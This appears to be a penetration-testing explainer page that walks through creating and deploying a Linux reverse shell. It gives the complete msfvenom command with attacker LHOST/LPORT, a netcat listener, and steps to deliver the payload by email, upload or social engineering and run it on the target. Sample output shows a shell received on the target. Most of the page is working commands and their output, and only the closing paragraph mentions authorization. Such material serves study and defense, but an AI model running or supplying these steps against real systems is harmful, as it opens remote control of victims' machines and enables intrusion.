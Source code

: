 # msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py


# 👉 Overview

---

### 👀 What ?

> msfvenom is a versatile command-line tool that comes bundled with Metasploit, a popular penetration testing framework. The specific command in question, 'msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py', is used to generate a reverse shell payload in Python format that targets a 64-bit Linux system.
> 

### 🧐 Why ?

> Understanding this command is crucial for both penetration testers and system administrators. For penetration testers, this knowledge helps in exploiting poorly secured systems by generating a payload that, when executed on the target system, provides a reverse shell to the attacker. For system administrators, understanding these methods is essential to better secure their systems and to identify malicious activities.
> 

### ⛏️ How ?

> To use this command, you need to have Metasploit installed on your system. The '-p' switch specifies the payload type, in this case, a reverse TCP shell for a 64-bit Linux system. The 'LHOST' and 'LPORT' are the IP address and port on which the attacker's machine is listening. The '-f py' switch specifies the output format, Python in this case. The '-o revshell.py' switch writes the output payload to a file named 'revshell.py'.
> 

### ⏳ When ?

> The use of reverse shell payloads became prominent with the rise in popularity of penetration testing and ethical hacking. The 'msfvenom' tool and similar technologies have been in use for over a decade, aiding both attackers and defenders in their respective tasks.
> 

# ⚙️ Technical Explanations

---

### Overview

A reverse shell is a type of shell where the target machine initiates a connection back to the attacker’s machine. This allows the attacker to bypass firewalls and NAT, as the outbound connection from the target machine is often not blocked.

Using `msfvenom`, part of the Metasploit Framework, you can create a reverse shell payload that can be executed on a target machine. Here's a step-by-step guide on how to create, deploy, and interact with a reverse shell payload.

### Steps to Create a Reverse Shell Payload Using Msfvenom

### 1. Install Metasploit Framework

Metasploit is essential for generating payloads and performing various exploitation tasks. Install it using the following command:

```bash
sudo apt-get install metasploit-framework

```

### 2. Generate the Reverse Shell Payload

Use `msfvenom` to generate a payload. The following command creates a reverse TCP shell payload for a 64-bit Linux system, outputting the payload as a Python script.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f py -o revshell.py

```

Explanation:

- `p linux/x64/shell_reverse_tcp`: Specifies the payload type.
- `LHOST=192.168.1.10`: IP address of the attacker's machine.
- `LPORT=4444`: Port on which the attacker’s machine will listen.
- `f py`: Output format is Python.
- `o revshell.py`: Output file name.

### 3. Start a Listener on the Attacker’s Machine

Use `netcat` (nc) to start a listener on the specified port. This will wait for the connection from the target machine.

```bash
nc -nvlp 4444

```

Explanation:

- `n`: Numeric-only IP addresses (no DNS).
- `v`: Verbose mode, provides more details.
- `l`: Listen mode, for incoming connections.
- `p 4444`: Port number to listen on.

### 4. Transfer and Execute the Payload on the Target Machine

Transfer the generated `revshell.py` payload to the target machine through various means (e.g., email, file upload, social engineering).

On the target machine, execute the payload:

```bash
python revshell.py

```

### Example Workflow

### 1. Generate the Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f py -o revshell.py

```

**Output**:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of py file: 615 bytes
Saved as: revshell.py

```

### 2. Start the Listener

```bash
nc -nvlp 4444

```

**Output**:

```
Listening on [0.0.0.0] (family 0, port 4444)

```

### 3. Execute the Payload on Target Machine

Transfer `revshell.py` to the target machine and execute it:

```bash
python revshell.py

```

**Listener Output**:

```
Connection received on 192.168.1.20 12345
id
uid=1000(user) gid=1000(user) groups=1000(user)

```

You now have a reverse shell, allowing you to execute commands on the target machine as if you were directly interacting with it.

### Conclusion

A reverse shell allows attackers to gain remote access to a target machine by having it initiate a connection back to the attacker’s machine. Using `msfvenom`, a payload can be generated and deployed to achieve this. It’s crucial to understand that such actions should only be performed in authorized environments, such as penetration testing labs, and always with permission from the system owner. This knowledge helps both security professionals in understanding potential attack vectors and system administrators in securing their systems against such attacks.
